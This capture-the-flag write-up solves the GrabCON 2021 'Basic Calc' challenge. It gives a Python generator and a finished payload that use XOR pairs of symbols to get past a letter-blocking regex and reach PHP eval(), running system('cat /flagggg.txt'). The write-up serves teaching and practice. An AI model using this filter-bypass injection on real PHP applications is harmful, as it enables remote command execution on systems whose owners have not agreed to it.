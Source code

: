 # ## Basic Calc
## Description

Ever used calc based on php?
## Solution
First we open that web page

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_1.jpg)

Look at the code, we need to bypass the condition that not match regex : ``[A-Za-z`]`` . Since ``eval — Evaluate a string as PHP code``, we can inject a strings to become a code execution.

To bypass input above, we use a `XOR` technique. For example :

```php
A XOR B = C
B XOR C = D

# we can try in php
# For example:
<?php
 echo ('3'^'@'); # output = s
 echo ('9'^'@'); # output = y
 echo ('3'^'@'); # output = s
 echo ('4'^'@'); # output = t
 echo ('8'^']').('2'^'_'); # concat strings

 #ouput = system
?>
```

So how can we know that output? So we decide to create a python script to convert ``strings to XOR code``
or ``generate a xor code from strings``.

```python
# except reqular expression : A-Za-z`
# php print xor example : echo ("A"^"B")
# system execute example:
# <?php
# echo ("system(ls -la)"); #it will execute as strings
# echo ("system")("ls -la"); #it will execute as symbols #magic
# ?>

string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
```

Explain code above:

 1. suppose flagggg.txt location is at ``/`` directory. So we want php to execute code ``system("cat /flagggg.txt"``
 2. list all the chars that not match the regex. For example:``charset ="1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"``
 3. Since ``echo ("system(ls -la)");`` will execute as strings but ``echo ("system")("ls -la");`` will execute as symbols, so we need to seperate them. In python script above we convert them to a list which we store in `string_code` variable.
 4. looping to find ``XOR code`` of each chars that we compared
 5. print all ``XOR code`` that equal the chars in each of index `string_code` variable

```python
Ouput:
("system")("cat /flagggg.txt") = (('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))
```

So now go back to the web page and try to input.

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_3.jpg)

We got flag!
